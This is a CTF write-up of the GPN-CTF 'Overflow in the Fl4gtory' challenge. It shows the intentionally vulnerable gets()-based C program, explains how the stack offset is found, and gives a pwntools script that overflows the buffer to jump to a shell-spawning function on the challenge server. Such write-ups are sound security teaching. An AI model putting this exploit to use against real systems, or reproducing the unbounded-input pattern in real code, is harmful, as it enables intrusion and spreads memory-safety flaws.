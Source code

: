 ```yaml
---
title: GPN-CTF - Pwn
date: 2023-06-10 23:32:18 +0300
categories: ["pwn", "buffer overflows"]
tags: ["easy", "kitctf", "gpn-ctf", "intro-to-pwn"]
author: calvin-kimani
---
```


# Background:

As an aspiring pwn enthusiast, I recently participated in the just concluded GPN CTF where I encountered some amazing but frustrating pwn challenges. 

Despite my best efforts, I was only able to solve a couple of pwn challenges during the CTF, but I remained determined to continue learning and improving my skills. 

This writeup focuses on the "Overflow in the Fl4gtory" challenge and "Overflows keep flowing", two of the pwn challenges I only managed to successfully exploit.

# Overflow in the Fl4gtory
## Challenge Description:

The "Overflow in the Fl4gtory" challenge presents a vulnerable program with a simple buffer overflow vulnerability. The objective is to exploit this vulnerability to gain control over the program and execute the shutoff() function, which will grant access to the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/overflow-in-the-fl4gtory-desc.png)


### Vulnerable Code:
```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o overflow-in-the-fl4gtory overflow-in-the-fl4gtory.c

void shutoff() {
	printf("Pipe shut off!\n");
	printf("Congrats! You've solved (or exploited) the overflow! Get your flag:\n");
	execve("/bin/sh", NULL, NULL);
}


int main() {
	char buf[0xff];
	gets(buf);
	puts(buf);
	return 0;
}
```

## Vulnerable code explanation
The program is simple enough. In the main() function, a buffer named buf with a size of 255 bytes (0xff in hexadecimal) is declared. The user is prompted/required to enter input by the use of `gets` **(man gets)** which is stored in buf and the written input displayed to the screen by use of `puts(buf)` **(man puts)**

Taking a closer look at the provided source code, we can observe the absence of proper input validation. The vulnerable program, utilizes the gets() function to accept user input, but it lacks proper bounds checking. This flaw allows an attacker to overflow the buffer, which in our case is `buf`, potentially altering the program's stack and controlling its execution flow.

## Exploitation

To exploit this vulnerability, we need to determine the offset required to reach the return address on the stack. When a function is called during program execution, the called function's arguments are pushed on the stack in the reverse order of how they're declared, then the caller saves the next instruction to be executed after the called function by pushing it's address on the stack. This is so that the program will know where to return to after the called function finishes executing. 

This is what is called the **return address** `ret` and is the one we want to control by overflowing `buf`. 

After the return address is saved, the current stack pointer `sp` is saved to the base-pointer `ebp` which we can now use to reference the arguments and data stored on the stack since it is "stationary". Then we reserve memory on the stack for local data and functions by subtracting a the required number of bytes from `sp` which moves it to a new location to the top of the stack. We subtract because the stack moves from high memory addresses to low memory addresses.

We can see all this by disassembling the compiled code using **objdump** :
```bash
objdump -d overflow-in-the-fl4gtory
```

![objdump](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/objdump.png)

### calculating the offset

By analyzing the output from objdump, we can see that 256 bytes **(0x100 in decimal)** are being reserved on the stack. The `buf` array is 255 bytes **(0xff)** but since it is a `char` array the last byte is a null which shows the end of the string. We need to fill `buf` with 256 bytes and then overflow the base pointer `$rbp` which is 8 bytes.

Now we know our return address is 264 bytes(256+8) from the vulnerable buffer, so we craft a payload consisting of 264 bytes of padding followed by the address of the shutoff() function. 

In this case, we use the pwn library in Python to assist in building the payload and interacting with the target program.

```python
from pwn import *

context.terminal = ["alacritty", "-e"] # Substitute your terminal

## Locate the address of shutdown
elf = ELF("./overflow-in-the-fl4gtory")
shutoff_addr = elf.symbols["shutoff"]

## Create Payload
payload = b"A"*264+p64(shutoff_addr)

target = remote('overflow-in-the-fl4gtory-0.chals.kitctf.de', 1337, ssl=True)
target.sendline(payload)

## Profit $$
target.recv()
target.interactive()

```

### reading the flag

After constructing the payload, we establish a connection to the target server using the provided IP address and port. We then send the payload to the program. Upon successful exploitation, the shutoff() function will be executed, and we can read the flag.

![program exploited](/assets/ctf/pwn/2023/KitCTF/overflow-in-the-fl4gtory/overflow-in-the-fl4gtory.png)

By leveraging the buffer overflow vulnerability in the "Overflow in the Fl4gtory" challenge, we successfully gained control over the program's execution flow and executed the shutoff() function to obtain the flag.


>Writeup for "Overlows keep flowing" coming soon..
{: .prompt-tip }